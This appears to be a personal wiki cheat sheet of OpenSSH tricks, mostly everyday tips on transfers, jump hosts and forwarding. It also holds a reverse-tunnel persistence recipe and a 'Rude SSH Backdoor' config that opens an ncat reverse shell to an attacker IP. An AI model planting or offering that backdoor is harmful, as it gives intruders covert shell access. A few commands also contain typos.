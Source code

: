 <!-- TITLE: Openssh -->
<!-- SUBTITLE: A quick summary of Openssh -->

# Resuming an SCP transfer
```
rsync -e ssh \
--partial --append \
--progress \
remote.example.org:/path/to/file .
```

# Using a Jumphost
```
ssh -D 12344 -J me@jumphost root@unreachable-host
```

# Proxy Command
```
ssh -o ProxyCommand="ssh -W %h:%p bob@10.10.10.10" bob@remote
ssh -o ProxyCommand="ncat --proxy proxyhsot 1080 %h %p" bob@remote
```

# AUTOSSH
```
#Run on remote host
autossh -M 0 -o "ServerAliveInterval 30" -o "ServerAliveCountMax 3" -R 127.0.0.1:2222:127.0.0.1:22 hackbox

#Run on hackbox
ssh -P 2222 bob@localhost
get into remote box
```

# Stuff inside ssh
```
~? - help message
~# show forwarded connections.
~~ send excape character (by doing it twice)
?C - Command Line

CommandLineCommands
ssh> ?
Commands:
      -L[bind_address:]port:host:hostport    Request local forward
      -R[bind_address:]port:host:hostport    Request remote forward
      -D[bind_address:]port                  Request dynamic forward
      -KL[bind_address:]port                 Cancel local forward
      -KR[bind_address:]port                 Cancel remote forward
      -KD[bind_address:]port                 Cancel dynamic forward
```

# Rude SSH Backdoor
```
Hostname *
	PermitLocalCommand true
	Localcommand ncat -e /bin/bash <MYIP> 4141 &
```

